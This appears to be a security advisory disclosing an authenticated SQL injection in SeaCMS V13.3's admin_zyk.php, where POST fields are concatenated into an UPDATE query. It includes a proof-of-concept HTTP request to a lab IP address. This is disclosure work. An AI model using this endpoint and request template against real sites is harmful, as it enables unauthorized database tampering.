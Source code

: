 Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/



![image-20250114112524682](images/image-20250114112524682.png)



The vulnerability is located in the admin_zyk.php file. Starting at line 41, if the value of '$action' is' edit 'and the $e_id option exists, then proceed further. Get the repository name 'zname', the repository API 'zapi', the repository information 'zinfo' and the repository type 'ztype' from the POST request in the body of the loop. If neither the repository name nor the repository API is empty, construct and execute an SQL update statement. Update the new field value to the corresponding record in the database's 'sea_zyk' table. As can be seen from line 65, there is concatenation of SQL statements, and the variables are controllable, which can cause SQL injection problems.



![image-20250114145327003](images/image-20250114145327003.png)





```
POST /seacms/51fek7/admin_zyk.php?action=edit HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/51fek7/admin_zyk.php
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

e_id%5B%5D=1&zid1=1&zname1=1&zapi1=1&zinfo1=%E6%9A%82%E6%97%A0%E6%8F%8F%E8%BF%B0&ztype1=1
```



![image-20250114111011890](images/image-20250114111011890.png)

